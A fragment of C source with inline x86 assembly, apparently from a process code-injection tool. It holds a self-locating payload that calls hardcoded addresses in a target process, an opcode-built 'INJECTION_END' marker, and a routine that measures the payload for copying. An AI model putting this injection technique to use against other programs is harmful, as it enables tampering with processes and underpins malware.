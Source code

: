                 SeedGet:
            _emit 0xE8
                _emit 0x00
                _emit 0x00
                _emit 0x00
                _emit 0x00
                pop eax
                sub eax, 0x09
                mov eax, dword ptr[eax]
                ret
                BeginOCode :
            call KeyAddrGet
                mov ecx, eax
                call SeedGet
                mov edx, eax
                mov eax, 0x0075D470
                call eax
                //mov eax, 0x7C80C058 //ON COMMON MACHINE : ExitThread Address
                //mov eax, 0x77E54A8F //ON "NEUF" MACHINE
                mov eax, 0x401304
                call eax        
    
                DEC ECX //I
                DEC ESI //N
                DEC EDX //J
                INC EBP //E
                INC EBX //C
                PUSH ESP //T
                DEC ECX //I
                DEC EDI //O
                DEC ESI //N
                POP EDI //_
                INC EBP //E
                DEC ESI //N
                INC ESP //D
        }
    }        
    
    int SizeOfCode()
    {
        int Size;
        char *Proc;
        char Buffer[14] = { 0 };        
    
        Size = 0;
        Proc = (char *)InjectedCode;
        do
        {
            memcpy(Buffer, Proc, 13);
            Size++;
            Proc++;
        } while (strcmp(Buffer, "INJECTION_END"));
        return (Size - 1);
    }        
    
